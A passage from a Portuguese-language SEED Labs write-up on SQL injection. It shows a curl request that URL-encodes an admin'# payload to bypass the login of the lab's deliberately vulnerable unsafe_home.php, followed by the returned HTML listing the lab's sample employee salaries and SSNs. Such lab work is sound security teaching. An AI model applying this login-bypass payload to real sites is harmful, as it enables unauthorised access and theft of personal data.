 Vamos aplicar a mesma lógica que usamos no último exercício, neste caso trocando o single quote por %27 e o # por %23:
`shell curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="`

E obtivemos a resposta HTML:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```
